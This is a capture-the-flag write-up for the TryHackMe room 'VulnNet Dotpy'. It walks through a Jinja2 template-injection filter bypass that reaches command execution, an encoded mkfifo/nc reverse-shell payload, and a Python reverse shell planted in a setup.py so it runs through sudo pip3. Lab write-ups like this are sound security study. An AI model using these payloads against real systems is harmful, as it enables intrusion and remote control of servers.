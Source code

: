 ```yaml
---
title: Vulnet Dotpy
layout: post
author: Bit Criminals Team
date: 2021-05-17 21:27:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotpy
---
```



As usual lets start with the nmap scan...

![](/images/D4rkDemian/dotpy1.png)

We got only one port i.e **8080** and gobuster was not working so using ffuf we found only three directories namely:

```
/login
/register
/logout
```

So we created an account and logged in into the website.

On enumerating we found that if we enter any wrong directory in the url we can see a 400 error page whose content was same eveytime except the input that we give in the url..

![](/images/D4rkDemian/dotpy3.png)

So we guessed it would be template injection and confirmed it by entering `{{7*7}}`.

So now we found an exploit command which will find the os library within the running machine and let us run our commands like **id** , **ls** etc..

```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}```

This worked and we got our output.

![](/images/D4rkDemian/dotpy6.png)

Now lets put our revershell also and listen to our local terminal using nc...

Now the exploit looks as follows 

```/%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('rm\x20\x2Ftmp\x2Ff\x3Bmkfifo\x20\x2Ftmp\x2Ff\x3Bcat\x20\x2Ftmp\x2Ff\x7Cbash\x20\x2Di\x202\x3E\x261\x7Cnc\x2010\x2E8\x2E7\x2E41\x201337\x20\x3E\x2Ftmp\x2Ff')|attr('read')()%7D%7D```

We replaced the percent sign with `\x` and . with `\x2E` as they were getting blocked by the website.

And so we got our shell 

Lets send socat to the shell to make it more stabilized..

After doing `sudo -l` we found that user web had the permission to run /usr/bin/pip3 as system-adm user .

So we created a setup.py file and placed the python reverse shell in it 

```echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.7.41",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /tmp/shell/setup.py```

Now listen on your local machine and run the following command in the shell 

```sudo -u system-adm /usr/bin/pip3 install /tmp/shell```

And now we are system-adm 


